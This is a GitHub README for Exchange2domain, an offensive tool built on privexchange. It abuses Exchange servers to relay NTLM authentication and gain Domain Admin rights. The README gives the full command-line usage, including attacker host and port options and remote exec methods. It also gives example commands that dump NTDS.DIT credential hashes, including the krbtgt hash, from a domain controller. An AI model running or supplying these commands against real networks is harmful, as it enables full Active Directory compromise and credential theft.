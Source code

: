 # Exchange2domain

All in One tools of [privexchange](https://github.com/dirkjanm/privexchange/).

Great writeup! [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/).

## Requirements
These tools require [impacket](https://github.com/SecureAuthCorp/impacket). You can install it from pip with `pip install impacket`.

## Usage
```
usage: Exchange2domain.py [-h] [-u USERNAME] [-d DOMAIN] [-p PASSWORD]
                          [--hashes HASHES] [--no-ssl]
                          [--exchange-port EXCHANGE_PORT] -ah ATTACKER_HOST
                          [-ap ATTACKER_PORT] -th TARGET_HOST
                          [-exec-method [{smbexec,wmiexec,mmcexec}]]
                          [--exchange-version EXCHANGE_VERSION]
                          [--attacker-page ATTACKER_PAGE]
                          [--just-dc-user USERNAME] [--debug]
                          HOSTNAME

Exchange your privileges for Domain Admin privs by abusing Exchange. Use me
with ntlmrelayx

positional arguments:
  HOSTNAME              Hostname/ip of the Exchange server

optional arguments:
  -h, --help            show this help message and exit
  -u USERNAME, --user USERNAME
                        username for authentication
  -d DOMAIN, --domain DOMAIN
                        domain the user is in (FQDN or NETBIOS domain name)
  -p PASSWORD, --password PASSWORD
                        Password for authentication, will prompt if not
                        specified and no NT:NTLM hashes are supplied
  --hashes HASHES       LM:NLTM hashes
  --no-ssl              Don't use HTTPS (connects on port 80)
  --exchange-port EXCHANGE_PORT
                        Alternative EWS port (default: 443 or 80)
  -ah ATTACKER_HOST, --attacker-host ATTACKER_HOST
                        Attacker hostname or IP
  -ap ATTACKER_PORT, --attacker-port ATTACKER_PORT
                        Port on which the relay attack runs (default: 80)
  -th TARGET_HOST, --target-host TARGET_HOST
                        Hostname or IP of the DC
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec
  --exchange-version EXCHANGE_VERSION
                        Exchange version of the target (default: Exchange2013,
                        choices:Exchange2010,Exchange2010_SP1,Exchange2010_SP2
                        ,Exchange2013,Exchange2013_SP1,Exchange2016)
  --attacker-page ATTACKER_PAGE
                        Page to request on attacker server (default:
                        /privexchange/)
  --just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach.
  --debug               Enable debug output
```

example:
```
python Exchange2domain.py -ah attackterip -u user -p password -d domain.com -th DCip MailServerip
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190124140647.jpg)



If you only want to dump `krbtgt`, use `--just-dc-user`.

example:
```
python Exchange2domain.py -ah attackterip -u user -p password -d domain.com -th DCip  --just-dc-user krbtgt MailServerip
```